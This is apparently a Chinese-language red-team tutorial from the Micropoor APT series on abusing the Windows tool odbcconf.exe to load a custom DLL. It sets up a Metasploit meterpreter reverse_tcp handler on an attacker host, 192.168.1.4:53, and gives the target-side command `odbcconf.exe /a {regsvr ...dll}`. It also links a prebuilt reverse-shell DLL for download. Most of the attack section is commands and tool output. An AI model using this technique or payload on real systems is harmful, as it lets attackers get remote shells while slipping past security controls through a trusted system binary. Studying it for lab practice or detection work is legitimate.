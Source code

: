 # 专注APT攻击与防御
https://micropoor.blogspot.com/

**注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

**Odbcconf简介：**

ODBCCONF.exe是一个命令行工具，允许配置ODBC驱动程序和数据源。

微软官方文档：
https://docs.microsoft.com/en-us/sql/odbc/odbcconf-exe?view=sql-server-2017

说明：Odbcconf.exe所在路径已被系统添加PATH环境变量中，因此，Odbcconf命令可识别，需注意x86，x64位的Odbcconf调用。

Windows 2003 默认位置：
`
C:\WINDOWS\system32\odbcconf.exe
C:\WINDOWS\SysWOW64\odbcconf.exe`

Windows 7 默认位置：
`C:\Windows\System32\odbcconf.exe
C:\Windows\SysWOW64\odbcconf.exe`

**攻击机：** 
192.168.1.4 Debian

**靶机：** 
192.168.1.119 Windows 2003
192.168.1.5 Windows 7

**配置攻击机msf：**
**注：x86 payload**
```bash
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 

Payload options (windows/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)

LHOST 192.168.1.4 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port 

Exploit target: 

Id Name

‐‐ ‐‐‐‐
0 Wildcard Target 

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53 
```
![](media/ba0e4d6c7b05eef6b8bcd5a730fb0c0b.jpg)

**靶机执行：**Windows 2003

**注：**文中为了更好的跨Windows 03--Windows 2016，Odbcconf for dll采纯C重新编写。
![](media/df24184d409a2c0d09bbd18c511bc231.jpg)

`C:\Windows\SysWOW64\odbcconf.exe /a {regsvr C:\Micropoor_Odbcconf.dll}`

**注：x64** Odbcconf.exe
![](media/74bf5a42540b5298cffc72cfa8987743.jpg)
![](media/c8a788e729ff4969f70affe596b8f3a5.jpg)

## 附：
Micropoor_Odbcconf.dll，已测Windows 2003 x64 Windows 7 x64

**注：**
功能：reverse_tcp IP:192.168.1.4 PORT:53。如有安全软件拦截，因Micropoor加入特征。

>   大小: 73216 字节
>   修改时间: 2019年1月19日, 21:29:11
>   MD5: B31B971F01DE32EC5EC45746BF3DDAD2
>   SHA1: CF42E4BF5A613992B7A563A522BBEBF1D0F06CCE CRC32: 28A1CE90

https://drive.google.com/open?id=1j12W7VOhv_-NdnZpFhWLwdt8sQwxdAsk

>   Micropoor
